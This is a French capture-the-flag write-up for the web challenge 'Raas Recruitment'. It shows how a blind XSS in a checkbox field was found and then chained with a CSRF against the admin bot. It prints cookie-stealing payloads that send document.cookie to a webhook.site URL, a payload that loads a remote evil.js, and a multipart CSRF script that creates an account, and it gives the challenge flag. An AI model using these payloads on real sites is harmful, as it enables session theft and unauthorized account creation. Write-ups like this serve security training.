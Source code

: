 # Write up - Raas Recruitment

## Catégorie

Web

## Description

We found the APT403 recruitment site.

Tried to find a way to exploit their website  !

https://recruitment.cyberthreatforce-ctf.com/

## Solution

On arrive en premier sur une page qui semble nous laisser créer un compte :

![alt](Images/1.png)

Si l'on s'inscrit sur le site, on est redirigé vers une page qui nous confirme notre inscription, mais rien de plus. Etant donné que c'est la seule page auquel on a accès, il va falloir jouer avec pour voir ce que l'on peut faire.

On pourrait être tenté d'essayer des injections SQL, mais cela ne marche pas. 

(Note à part : Il était en réalité possible de réaliser une injection SQL, mais cela n'était pas prévu par l'auteur du challenge. Je ne détaillerai donc pas comment faire dans ce write-up.)

Je décide donc d'intercepter la requete avec burp, pour voir comment les paramètres sont passés : 

![alt](Images/2.png)

On remarque donc que le form est un multipart, et qu'il n'y a que les champs déjà visibles qui sont envoyés. Etant donné que nous n'avons pas d'autres points d'entrés, et que le challenge parait réaliste, je vais directemet jouer avec les paramètres, et un en particulier. 

Quand on réalise un site web et que l'on met une checkbox, la valeur (normalement) renvoyés sera soit "yes" soit "no". On peut donc penser qu'un développeur ne pense pas à vérifier la valeur envoyé. 

Note : A partir de cette étape, n'importe quel exploit se fera en blind puisque nous n'avons aucun retour.

J'ai tenté d'injecter les payloads suivantes :

- <code>< script>fetch("https://webhook.site/670142c2-94c0-4669-a9ce-6539d860ce4c/?c="+document.cookie)< /script></code>
- <code>">< script>fetch("https://webhook.site/670142c2-94c0-4669-a9ce-6539d860ce4c/?c="+document.cookie)< /script></code>
- <code>">'>< script>fetch("https://webhook.site/670142c2-94c0-4669-a9ce-6539d860ce4c/?c="+document.cookie)< /script></code>

Avec la dernière payload, la magie opère :

![alt](Images/3.png)

Il s'agit donc, pour la première partie de ce challenge, d'une blind xss !, par contre, il n'y a aucun coookie. En effet, avec un peu de reconnaissance, on trouve le endpoint "/admin", mais évidemment nous n'y avons pas accès. 

Notre blind xss va donc nous servir pour leak cette page à l'aide du bot ! Je vais donc utiliser la payload suivante :

![alt](Images/4.png)

Malheureusement, la payload ne passe pas, mais ce n'est pas à cause du bot, en effet, il doit y avoir une limite de caractère qui nous empêche d'envoyer une payload aussi conséquente. On va donc ici tout simple aller écrire ce javascript dans un fichier, le mettre sur un VPS, et utiliser la payload suivante :

- <code>">'>< script src="https://midnightflag.fr/evil.js">< /script></code>

Note : Il faut ici charger le javascript depuis un site utilisant "https", sinon cela ne marchera pas.

On envoi la payload et.... aucun retour. En effet, la page d'administration de l'admin doit être importante en taille, ce qui fait que l'URL sera trop long, et la requête n'aboutira pas. On va donc devoir utiliser substr, pour ne sélectionner qu'une partie de la page HTML :

![alt](Images/5.png)

On renvoi notre payload, et on obtient une réponse du bot :

![alt](Images/6.png)

Je vais ici vous épargnez la longue méthode pour leak toute la page, et seulement vous montrez la partie intéressante :

![alt](Images/7.png)

On voit donc un lien vers une partie cachée du site "/bingvxyyaknprxtgwexgldwdcrcqrfacDEV/", si l'on s'y rend, on observe une simple page de login :

![alt](Images/8.png)

Au vu de l'HTML au dessus, il va falloir que l'on se créer un compte. Mais, quelque chose m'a tapé dans l'oeil, en effet, après avoir leak l'HTML, j'ai remarque ce script javascript : "prcmSDAui9SeXxbuuaUKjEAJ5qIGY9B9vPFMwW19.js", je vais donc aller regarder ce script pour voir ce qu'il fait. Après un petit peu de déobfuscation, on observe cette partie qui semble faire la requête pour créer un compte "DEV":

<code><pre>
let _0x4b66bd = new FormData();
_0x4b66bd.append("username", trim($("#.username").val())) 
_0x4b66bd.append("password", trim($('.password').val())), _0x4b66bd.append('password2', trim($('.password2').val()))
$['ajax']({
    'type': "POST",
    'url': "hurxR6IbyQGyZClNWc53qew9JwI8LavFYgAs8lk1.php",
    'data': _0x4b66bd,
    'cache': ![],
    'contentType': ![],
    'processData': ![],
    'context': this,
    'before': function() {},
    'success': function(_0x1935b7) {
        const _0x2c408d = _0x3d62c3;
        console[_0x2c408d(0x7d)](_0x1935b7), $(_0x2c408d(0x72))[0x0][_0x2c408d(0x71)]();
    }
});
</pre></code>

On a donc le lien du réel script PHP ou il faut taper pour créer son compte, et là un autre problème se pose : Il va falloir faire une CSRF grâce au bot, mais ce n'est pas un form classique, c'est un mutlipart/form-data. 

Je vais donc tenter une première payload pour que le bot créer mon compte :

<code><pre>
var formData = new FormData();
formData.append("username","Wortax");
formData.append("password","LpmJDIZADr45632!\*");
formData.append("password2","LpmJDIZADr45632!\*");
var xml = new XMLHttpRequest();
xml.open("POST","/admin/hurxR6IbyQGyZClNWc53qew9JwI8LavFYgAs8lk1.php",true);
xml.send(formData)
</pre></code>

Ici, je reproduis la requête ajax que l'on a pu voir au dessus, donc je me dis que la payload est bonne étant donné que c'est ce qui est effectué côté admin. On attend donc que le bot passe et... le compte n'est pas créé, il va falloir utiliser une autre payload.


Au début de ce write-up, rappelez-vous que l'on a intercepté une requête avec burp, ce qui nous avait permis de voir que les paramtères étaient passés en multipart/form-data. On va donc de voir créer notre requête sous cette forme spécifique, pour que cela fonctionne :

<code><pre>
-----------------------------350181559013892253873845607352
Content-Disposition: form-data; name="username"

Wortax
-----------------------------350181559013892253873845607352
Content-Disposition: form-data; name="password"

Wortax123!
-----------------------------350181559013892253873845607352
Content-Disposition: form-data; name="password2"

Wortax123!
-----------------------------350181559013892253873845607352--
</pre></code>

On intègre tout ca dans un script js :

<code><pre>
window.onload = function()
{
    var xhr = new XMLHttpRequest();
    xhr.open("POST","/admin/hurxR6IbyQGyZClNWc53qew9JwI8LavFYgAs8lk1.php",false)
    xhr.setRequestHeader("Accept", "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8");
    xhr.setRequestHeader("Accept-Language", "tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3");
    xhr.setRequestHeader("Content-Type", "multipart/form-data; boundary=---------------------------350181559013892253873845607352");
    var body =
    "-----------------------------350181559013892253873845607352\r\n" +
    "Content-Disposition: form-data; name=\"username\"\r\n\n" +
    "Wortax\r\n"+
    "-----------------------------350181559013892253873845607352\r\n" +
    "Content-Disposition: form-data; name=\"password\"\r\n\n" +
    "Wortax123!\r\n"+
    "-----------------------------350181559013892253873845607352\r\n" +
    "Content-Disposition: form-data; name=\"password2\"\r\n\n" +
    "Wortax123!\r\n"+
    "-----------------------------350181559013892253873845607352--\r\n";

    xhr.send(body)
}
</pre></code>

On envoi cela au bot et on essaye de se connecter :

![alt](Images/9.png)


Merci à l'auteur de ce challenge ! :)

## Flag

CYBERTF{L0ok_M0m_i_C4n_FouNd_XsS_aNd_3xpLoiT_It}
